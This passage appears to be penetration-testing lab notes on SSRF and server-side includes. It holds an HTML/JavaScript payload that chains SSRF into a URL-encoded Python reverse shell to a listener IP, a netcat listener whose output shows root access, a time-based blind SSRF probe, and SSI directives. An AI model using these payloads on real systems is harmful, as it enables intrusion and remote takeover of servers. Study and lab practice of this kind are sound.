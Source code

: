 ```html
		http.open("GET","http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=export%2520RHOST%253D%252210.10.15.176%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527", true);
		http.send();
		http.onerror = function(){document.write('<a>Oops!</a>');}
		</script>
	</body>
</html>
```
#### Start a netcat listener and upload the file
```Shell
nc -lnvp 9090
```
Output:
```
listening on [any] 9090 ...
Connection received on 10.129.201.238 33100

# whoami

whoami
root
```
## Time-Based SSRF
#### Submit the following document to an application (e.g., pdf) and observe the response time
```HTML
<html>
	<body>
		<b>Time-Based Blind SSRF</b>
		<img src="http://blah.nonexistent.com">
	</body>
</html>
```

![[timebased 1.png]]
We can see the service took 10 seconds to respond to the request. If we submit a valid URL inside the HTML document, it will take less time to respond. Remember that `internal.app.local` was a valid internal application (that we could access through SSRF in the previous section).

![[timebased 2.png]]
In some situations, the application may fail immediately instead of taking more time to respond. For this reason, we need to observe the time differences between requests carefully.
## Server-Side Includes
### Values to submit in forms
#### Date
```HTML
<!--#echo var="DATE_LOCAL" -->
```
#### Modification date of a file
```html
<!--#flastmod file="index.html" -->
```
#### CGI Program Results
```html
<!--#include virtual="/cgi-bin/counter.pl" -->
```